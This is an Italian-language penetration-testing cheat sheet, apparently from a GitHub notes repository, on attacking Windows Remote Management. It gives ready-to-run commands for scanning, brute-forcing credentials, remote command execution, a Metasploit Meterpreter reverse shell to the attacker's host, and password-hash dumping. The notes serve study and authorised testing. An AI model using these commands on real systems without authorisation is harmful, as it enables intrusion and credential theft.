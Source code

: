 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# WinRM Enumeration & Exploitation

**WinRM (Windows Remote Management)** è un protocollo Microsoft che consente l’amministrazione remota di macchine Windows tramite PowerShell. Utilizza le porte `5985/TCP` (HTTP) e `5986/TCP` (HTTPS), e viene ampiamente usato in ambienti Active Directory per la gestione centralizzata dei sistemi. Quando mal configurato o esposto, può rappresentare un punto d’accesso critico.

---

## Fase 1 – Scansione del Servizio WinRM

La scansione standard di Nmap (`nmap -sS <IP>`) **non include automaticamente le porte 5985 e 5986**, quindi è fondamentale specificarle manualmente:

`nmap -p 5985,5986 -sV <IP>` ⟶ verifica se WinRM è attivo e restituisce banner, certificati e dettagli del server.  

Per uno script specifico:
`nmap -p 5985 --script http-winrm-info <IP>`

Con Metasploit:
`use auxiliary/scanner/winrm/winrm_auth_methods`<br>
`set RHOSTS <IP>`<br>
`run`<br>

Questo modulo consente di determinare i metodi di autenticazione supportati (NTLM, Basic, Kerberos).

WinRM può anche essere attivo su porte non standard. Per rilevarlo:

`use auxiliary/scanner/rdp/rdp_scanner`<br>
`set RHOSTS <IP>`<br>
`set RPORT <porta_sospetta>`<br>
`run`<br>

---

## Fase 2 – Brute-force delle Credenziali

### CrackMapExec

CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows. 

Per vedere le opzioni disponibili:
`crackmapexec -h`

Attacco bruteforce su WinRM:
`crackmapexec winrm <IP> -u <username> -p <lista_password>`  
Oppure per test singolo:
`crackmapexec winrm <IP> -u administrator -p Password123`

### Metasploit

In alternativa, puoi usare Metasploit:
`use auxiliary/scanner/winrm/winrm_login`<br>
`set RHOSTS <IP>`<br>
`set USER_FILE <lista_utenti>`<br>
`set PASS_FILE <lista_password>`<br>
`set PASSWORD anything`<br>
`run`<br>

Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario, altrimenti il modulo non eseguirà il test.

---

## Fase 3 – Esecuzione Remota di Comandi

### Con CrackMapExec:

`crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"`<br>
Permette di eseguire comandi come `whoami`, `hostname`, `systeminfo`, ecc.

### Con Metasploit:

`use auxiliary/scanner/winrm/winrm_cmd`<br>
`set RHOSTS <IP>`<br>
`set USERNAME <utente>`<br>
`set PASSWORD <password>`<br>
`set CMD "whoami"`<br>
`run`<br>

Questo modulo è utile per:
- Verificare se le credenziali funzionano
- Eseguire comandi diagnostici
- Operare in ambienti con logging avanzato
- Testare permessi utente

---

## Fase 4 – Accesso Interattivo

### Evil-WinRM

Strumento Ruby per accedere a una shell PowerShell remota:

`evil-winrm -u <username> -p '<password>' -i <IP>`<br>

Funzionalità disponibili:
- Shell interattiva
- Upload e download file
- Esecuzione script PowerShell
- Post-exploitation tools

---

## Fase 5 – Exploit con Metasploit

Per ottenere una shell Meterpreter:

`use exploit/windows/winrm/winrm_script_exec`<br>
`set RHOSTS <IP>`<br>
`set LHOST <tuo_IP>`<br>
`set LPORT <Port>`<br>
`set USERNAME <utente>`<br>
`set PASSWORD <password>`<br>
`set FORCE_VBS true`<br>
`run`<br>

L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi con policy restrittive.

---

## Fase 6 – Post-Sfruttamento

Una volta ottenuto accesso tramite Meterpreter:
- `getuid` ⟶ mostra l’identità dell’utente corrente<br>
- `getprivs` ⟶ elenca i privilegi<br>
- `hashdump` ⟶ estrae hash delle password (se permesso)<br>
- `sysinfo` ⟶ mostra dettagli del sistema<br>
- `shell` ⟶ apre un prompt interattivo<br>

---
